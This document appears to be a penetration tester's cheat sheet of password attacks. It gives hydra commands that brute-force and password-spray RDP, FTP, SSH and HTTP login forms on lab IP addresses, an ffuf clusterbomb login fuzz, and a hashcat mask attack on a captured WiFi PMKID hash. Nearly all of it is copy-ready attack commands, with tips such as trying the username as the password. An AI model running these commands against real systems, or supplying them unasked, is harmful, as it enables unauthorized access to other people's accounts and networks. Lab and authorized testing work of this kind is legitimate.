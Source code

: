 Always try username as password
Always try reverted-username as password

# Brute forcing RDP with hydra
```bash
hydra -l user -P rockyou.txt rdp://192.168.50.202
```

-----------------------

# Brute forcing FTP with hydra
```bash
hydra -l itadmin -I -P rockyou.txt -s 21 ftp://192.168.247.202
hydra -s 24621 -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -u -f 192.168.200.226 ftp
```

-----------------------

# Brute forcing SSH with hydra
```bash
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```

-----------------------

# Brute forcing HTTP POST login with hydra and FUFF
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
hydra -I -f -L wordlist.txt -P wordlist.txt 'http-post-form://192.168.159.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'

# Grab request from burp and change username with USERFUZZ and password with PASSFUZZ
ffuf -request request.txt -request-proto http -mode clusterbomb -w users.txt:USERFUZZ -w passwords.txt:PASSFUZZ -mc 200
```

-----------------------

# Brute forcing HTTP GET login with hydra
```bash
 hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.244.191 http-get /
```

-----------------------

# Password spraying RDP with hydra
```bash
hydra -L users.txt -p "SuperS3cure1337#" rdp://192.168.247.202
```

-----------------------

# Hydra bruteforcing



    ?l = abcdefghijklmnopqrstuvwxyz
    ?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
    ?d = 0123456789
    ?h = 0123456789abcdef
    ?H = 0123456789ABCDEF
    ?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
    ?a = ?l?u?d?s
    ?b = 0x00 - 0xff

  hashcat -m 22000 -a 3 pmkid_H369AAAEBF4_88-D2-74-AA-EB-F4_2024-01-01T16-00-05.22000 ?l?l?l?l?l?l?l --force
